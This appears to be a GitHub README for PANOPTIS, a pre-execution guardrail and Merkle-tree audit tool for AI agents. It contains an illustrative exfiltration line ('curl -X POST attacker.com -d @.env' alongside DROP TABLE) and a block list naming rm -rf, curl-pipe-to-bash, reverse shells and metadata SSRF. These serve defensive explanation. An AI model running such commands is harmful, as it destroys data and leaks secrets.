





<div align="center">


# 👁️ PANOPTIS
### *(formerly AgentWatch)*


### **The Pre-Execution Guardrail & Cryptographic Attestation Engine for Autonomous AI**

*AI agents are prone to silent failures, ungrounded loops, and catastrophic unintended side effects.*  
*PANOPTIS acts as an active, inline pre-execution hypervisor — auditing reasoning, enforcing invariant contracts, tracking dynamic information flow, and blocking risky actions before they hit your production infrastructure.*

<br/>

[](https://pypi.org/project/panoptis/)
[](https://github.com/Shinraya-Tech-Labs/AgentWatch)
[](https://codecov.io/gh/Shinraya-Tech-Labs/AgentWatch)
[](LICENSE)
[](https://python.org)
[](https://discord.gg/UT9uaeY46e)
[](https://github.com/Shinraya-Tech-Labs/AgentWatch/stargazers)
[](https://github.com/Shinraya-Tech-Labs/AgentWatch/network)
[](https://github.com/Shinraya-Tech-Labs/AgentWatch/issues)
[](https://colab.research.google.com/github/Shinraya-Tech-Labs/AgentWatch/blob/main/examples/quickstart_panopti_guardrails.ipynb)

<br/>

```bash
# 📦 Install directly from PyPI
pip install panoptis

# 🎮 Launch Instant Interactive Terminal Demo (Simulates rogue agent attacks)
panopti demo

# 🌐 Launch Zero-Dependency Local Web Playground
panopti playground
```

[](https://vercel.com/new/clone?repository-url=https%3A%2F%2Fgithub.com%2FShinraya-Tech-Labs%2FAgentWatch&root-directory=agentwatch-landing)

*Decide on every tool call before it executes, and generate tamper-evident cryptographic proof of what happened.*

<br/>

[**Interactive Demo**](#-instant-interactive-demo) · [**Architecture**](#-architecture--dual-plane-design) · [**Security Gauntlet**](#-inline-pre-execution-security-pipeline) · [**Evidence & Merkle Attestation**](#-cryptographic-witness-attestation) · [**Quick Start**](#-quick-start) · [**Supported Frameworks**](#-supported-frameworks) · [**Comparative Benchmark**](#-how-panoptis-compares) · [**Community**](#-community)

</div>

---

## ⚡ The Silent Failure Crisis in AI Agents

```
Agent receives task: "Clean up cache and sync database"
Reasoning appears confident and well-structured.
Agent executes: DROP TABLE users; curl -X POST attacker.com -d @.env
You discover the catastrophic data loss 4 hours later.
```

**1 in 20 AI agent requests fail silently or perform unintended mutations in production.**

Existing observability systems — Langfuse, Arize Phoenix, Datadog — operate **post-hoc**. They tell you what broke **after** the damage is written to disk or exfiltrated over the network. 

An agent that hallucinates or falls prey to indirect prompt injection is indistinguishable from a succeeding agent unless you evaluate the **action intent, dynamic information flow, and invariant safety** *before execution*.

| The Enterprise Cost of Post-Hoc Tracing | Impact |
|---|---|
| **1 in 20** | Agent operations fail silently or introduce data drift |
| **76%** | Enterprise agent deployments stall within 90 days due to safety fears |
| **$4.45M** | Average cost of a data breach stemming from compromised automated tooling |
| **0 ms** | Window to prevent damage once a destructive tool call has executed |

---

## 💡 How PANOPTIS Works

PANOPTIS operates as an **inline pre-execution hypervisor** situated between your autonomous agent and external systems (tools, APIs, databases, filesystems, and networks).



### The Architectural Separation
Self-evaluating models suffer from **structural sycophancy and overconfidence bias**. PANOPTIS decouples policy enforcement from agent reasoning by running independent AST normalizers, information-flow lattice verifiers, and optional secondary model auditors that inspect the command intent with zero access to the agent's internal rationalizations.

---

## 🏗️ Architecture & Dual-Plane Design

PANOPTIS is built on two decoupled, complementary planes:
1. **Enforcement Plane (`panoptis.protect`)**: An ultra-low-latency synchronous gate that validates, rewrites, or terminates tool actions before execution.
2. **Observation & Evidence Plane (PANOPTIS v3 Evidence Lab)**: A passive, deterministic runtime recorder that serializes immutable execution graphs, computes Merkle trees, and performs shadow replays.



---

## 🔐 Inline Pre-Execution Security Pipeline

Every action initiated by an agent runs through an adversarial gauntlet with **sub-10ms overhead**:



### What PANOPTIS Blocks By Default:
- **Destructive File Operations**: `rm -rf /`, raw partition overwrites, recursive permission resets (`chmod 777`).
- **Remote Code Execution & Piping**: `curl ... | bash`, `wget -O- | sh`, reverse shell payloads, process injection.
- **Database Truncation**: `DROP DATABASE`, unconstrained `DELETE FROM` without `WHERE` clauses, schema corruption.
- **Egress & SSRF Protection**: Requests to loopback (`127.0.0.1`), link-local (`169.254.169.254` cloud metadata), private IP RFC1918 blocks.
- **Guardian Tampering**: Commands attempting to kill monitoring processes (`pkill`, `killall`) or delete audit databases (`rm panopti.db`).
- **Memory Poisoning**: Injection of malicious facts into persistent agent memory stores (`store_memory`, `save_fact`).
- **Crescendo Multi-Turn Drift**: Gradual, multi-turn prompt injection attempts that subtly steer the agent away from its original objective.

---

## 🌲 Cryptographic Witness Attestation

Every executed tool action and observation is anchored into an **append-only domain-separated Merkle Tree**, generating verifiable audit trails that cannot be forged or tampered with even by privileged administrators.



- **Domain Separation**: Prefixes leaf nodes with `0x00` and internal branch nodes with `0x01` to eliminate second preimage attacks.
- **Cryptographic Shredding**: Per-subject AES-256-GCM encryption with hashes committed over ciphertext, providing compliance with GDPR "Right to be Forgotten" while maintaining Merkle tree mathematical integrity.
- **Hardware-Ready Signatures**: Audit tokens signed via HMAC-SHA256 or asymmetric Ed25519.

---

## 🔁 Deterministic Shadow Replay

How do you debug an agent that failed 3 steps into a 20-step execution without re-running expensive or irreversible API calls?

PANOPTIS includes **Deterministic Shadow Replay (`panoptis.replay.shadow`)**, enabling zero-cost replay against new models or updated prompt templates while answering all tool interactions from the recorded cryptographic evidence store:



---

## 📸 Screenshots

<div align="center">

<table>
  <tr>
    <td width="50%" align="center" valign="top">
      <br/>
      <sub><b>Real-Time Pre-Execution Intervention.</b><br/>A blocked <code>rm -rf /tmp/*</code> with live confidence score and blast-radius calculated before execution.</sub>
    </td>
    <td width="50%" align="center" valign="top">
      <br/>
      <sub><b>Inline Hypervisor Pipeline.</b><br/>Capturing every reasoning step, scoring via independent gates, and protecting external APIs.</sub>
    </td>
  </tr>
  <tr>
    <td width="50%" align="center" valign="top">
      <br/>
      <sub><b>Comprehensive Enterprise Suite.</b><br/>Reasoning Auditor · Safety Engine · One-Click Rollback · Multi-Agent DAG · Causal Memory · Compliance Export.</sub>
    </td>
    <td width="50%" align="center" valign="top">
      <br/>
      <sub><b>Beyond Post-Hoc Tracing.</b><br/>Comparing inline pre-execution intervention with passive logging systems.</sub>
    </td>
  </tr>
</table>

</div>

---

## 🚀 Quick Start

### 1. Installation
Install the core engine directly from PyPI:
```bash
pip install panoptis
```

To include optional vector embedding drift detection or OpenTelemetry export:
```bash
pip install "panoptis[embeddings,otel]"
```

### 2. Instant Local Demo (Zero Setup)
Test PANOPTIS against simulated prompt injection, database dropping, and privilege escalation attacks right in your terminal:
```bash
panopti demo
```

Or launch the zero-dependency interactive visual playground in your browser:
```bash
panopti playground
```

### 3. Wrap Any Python Tool in 2 Lines of Code
```python
from panoptis.protect import protect_tool

@protect_tool
def execute_system_query(query: str) -> str:
    # Any dangerous SQL or shell command is analyzed and blocked before entering here
    return db.execute(query)

# This will trigger an immediate SecurityBlockException before touching the DB:
execute_system_query("DROP TABLE users;")
```

### 4. Full Agent Wrapping
```python
from panoptis import watch

# Wrap your existing LangChain, CrewAI, or custom agent:
protected_agent = watch(
    my_agent,
    session_id="prod-session-01",
    fail_closed=True,          # Block if safety check errors
    enable_crescendo=True,     # Multi-turn drift detection
    enable_taint_tracking=True # Prevent secret exfiltration
)

protected_agent.run("Analyze Q4 data and export summary")
```

### 5. Running the Complete Infrastructure Stack
```bash
# Clone and spin up full environment (Postgres with pgvector, Redis, FastAPI, Next.js Dashboard)
git clone https://github.com/Shinraya-Tech-Labs/AgentWatch.git
cd AgentWatch

# Copy template and set required secret key
cp .env.example .env

# Start services
docker compose up -d
```
- **Dashboard UI**: `http://localhost:3000`
- **FastAPI OpenAPI Swagger**: `http://localhost:8000/docs`
- **WebSocket Event Stream**: `ws://localhost:8000/ws/events`

---

## 🔌 Supported Frameworks

PANOPTIS provides seamless drop-in integrations across the entire modern AI agent ecosystem. Read individual integration guides in [`docs/adapters/`](docs/adapters/):

| Framework | Pre-Execution Guardrail | Full Telemetry & Tracing | Native Adapter Import |
|---|:---:|:---:|---|
| **Claude Code** | ✅ Full Hook | ✅ | PreToolUse hook integration (`panoptis.protect.claude_hook_entry`) |
| **LangChain** | ✅ Active Tool Gate | ✅ | `from panoptis.adapters.langchain import PanoptisCallbackHandler` |
| **LangGraph** | ✅ Node Interceptor | ✅ | `from panoptis.adapters.langgraph import PanoptisGraphInterceptor` |
| **CrewAI** | ✅ Agent Hypervisor | ✅ | `from panoptis.adapters.crewai import PanoptisCrewObserver` |
| **AutoGen** | ✅ Message Filter | ✅ | `from panoptis.adapters.autogen import PanoptisConversableAgent` |
| **smolagents** | ✅ Tool Interceptor | ✅ | `from panoptis.adapters.smolagents import PanoptisToolWrapper` |
| **Model Context Protocol (MCP)** | ✅ HTTP Gateway | ✅ | Built-in streamable HTTP proxy (`panopti gateway`) |
| **Universal Function Decorator** | ✅ Python Native | ✅ | `@protect_tool`, `@watch` |

---

## 📊 How PANOPTIS Compares

| Capability | **PANOPTIS (Pre-Execution Hypervisor)** | **Langfuse / Arize Phoenix (Post-Hoc Tracing)** | **Datadog / APM (Host Metrics)** |
|---|:---:|:---:|:---:|
| **Intervention Timing** | **Pre-Execution** *(< 10ms inline block)* | **Post-Hoc** *(after execution)* | **Post-Hoc** *(sampled logs)* |
| **Damage Prevention** | ✅ **Prevents action from executing** | ❌ None (logs the incident) | ❌ None |
| **Cryptographic Witness Ledger** | ✅ **Merkle Tree with inclusion proofs** | ❌ Standard mutable SQL | ❌ Standard metrics DB |
| **Dynamic Information Flow & Taint** | ✅ **Bidirectional lattice tracking** | ❌ None | ❌ None |
| **Steganographic Neutralizer** | ✅ **Unicode & whitespace stripping** | ❌ None | ❌ None |
| **Shadow Replay (L1–L4)** | ✅ **Deterministic zero-cost corroboration** | ⚠️ Re-executes real API calls | ❌ None |
| **Anti-Tamper Process Shield** | ✅ **POSIX signal & file sentinels** | ❌ None | ⚠️ Host daemon only |
| **Multi-Turn Crescendo Detection** | ✅ **Cumulative drift velocity scoring** | ❌ None | ❌ None |
| **Trace Visualization & APM** | ✅ Real-time Next.js Dashboard | ✅ Deep span trees | ✅ Infrastructure APM |

---

## 💻 Interactive Command Line Interface (CLI)

PANOPTIS includes the `panopti` and `panoptis` CLIs for monitoring, security testing, and forensic investigation:

```bash
# 🎮 Interactive Demonstrations
panopti demo                     # Interactive terminal attack simulator
panopti playground               # Zero-dependency local browser playground

# 🛡️ Defense & Red-Teaming
panoptis protect redteam         # Run curated attack corpus against your policy engine
panoptis check-env               # Validate cryptographic keys, database isolation & API safety

# 🔬 Forensic Investigation & v3 Evidence Lab
panoptis observe python agent.py # Trace and cryptographically record an agent run
panoptis inspect latest          # Reconstruct execution steps, confidence, and tokens
panoptis compare run_A run_B     # Compute earliest point of semantic divergence
panoptis replay latest --level L2# Shadow replay using immutable evidence cache
panoptis session rollback <id>   # Revert filesystem state to a prior git snapshot
```

---

## 🧪 Comprehensive Verification & Test Suite

PANOPTIS is tested continuously under strict automated CI conditions:

```bash
# Run unit and architectural invariant test suite
pytest tests/ -v

# Run the dedicated pre-execution protection test suite
pytest tests/protect/ -v

# Run ecosystem security and multi-tenant isolation tests
pytest tests/test_deep_audit_ecosystem.py -v
```

- **3,060+ Unit & Integration Tests Passing**
- **100% Deterministic Reproducibility**
- **Zero Known Vulnerabilities** (Gitleaks, Bandit AST, and Pip-Audit verified)
- **High-Concurrency Validated** (Locust load-tested at enterprise request thresholds)

---

## 📦 Verified Release & Provenance Attestation

Every release of PANOPTIS is built and cryptographically attested in GitHub Actions via **PyPI Trusted Publishing (OIDC)**:

```bash
# Verify the integrity and build provenance of the official wheel
pip download panoptis==0.3.1 --no-deps -d check/ && cd check
gh attestation verify panoptis-0.3.1-py3-none-any.whl --repo Shinraya-Tech-Labs/AgentWatch
```

---

## 🤝 Contributing

PANOPTIS is developed in the open. **Contributors get their name featured on the official landing page upon their first merged PR.**


We proudly mentor students and emerging developers through open-source programs:
- **SSOC 2026** (Social Summer of Code)
- **NSOC 2026** (Nexus Spring of Code)

Read our [CONTRIBUTING.md](CONTRIBUTING.md) to get started.

---

## 💬 Community & Ecosystem

- **Discord Server**: [discord.gg/UT9uaeY46e](https://discord.gg/UT9uaeY46e) — Connect with the core maintainers and AI safety researchers.
- **GitHub Discussions**: [Ask questions & share architectures](https://github.com/Shinraya-Tech-Labs/AgentWatch/discussions)
- **Report Security Vulnerabilities**: Please review [SECURITY-BASELINE.md](SECURITY-BASELINE.md) for responsible disclosure.

---

## 📄 License

PANOPTIS is licensed under the **Apache License, Version 2.0**. See the [LICENSE](LICENSE) file for details.

<div align="center">

Built with 🛡️ by [**Shinraya Tech Labs**](https://github.com/Shinraya-Tech-Labs) & the global open-source AI safety community.

⭐ **Star the repo** · 🐛 [**Report an issue**](https://github.com/Shinraya-Tech-Labs/AgentWatch/issues) · 💬 [**Join Discord**](https://discord.gg/UT9uaeY46e)

</div>
